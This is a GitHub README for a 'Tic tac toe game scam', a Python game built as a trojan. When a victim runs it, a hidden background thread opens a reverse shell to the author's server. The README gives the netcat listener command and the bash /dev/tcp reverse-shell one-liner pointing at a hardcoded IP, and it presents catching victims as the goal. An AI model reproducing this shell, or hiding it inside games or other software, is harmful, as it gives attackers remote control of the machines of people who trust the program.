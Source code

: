 # Tic tac toe game scam

Scam attack that uses Tic tac toe game to catch victims

## Getting started

- Clone the [repository](https://github.com/hirwablessing/python-game-scam)
- navigate to directory `python-game-scam`
- run `python3 ticatactoe.py` (victim is caught 😋)

### How the scam works

- The hacker opens up a vpn port at `82.165.97.169` for the victim to connect via port 2004

```bash
   $ nc -lnvp 2004 -s 82.165.97.169
```

The victim thinks that he/she is just playing a game.

When the victim opens up the game, a thread is created the in the background to run a bash script that connects to the server hence the victim is hacked.

The script to run in background is

```bash
$ /bin/bash -i > /dev/tcp/82.165.97.169/2004 0<&1 2>&1
```

### Hacker

hirwablessing7@gmail.com A.K.A blessingartcreator
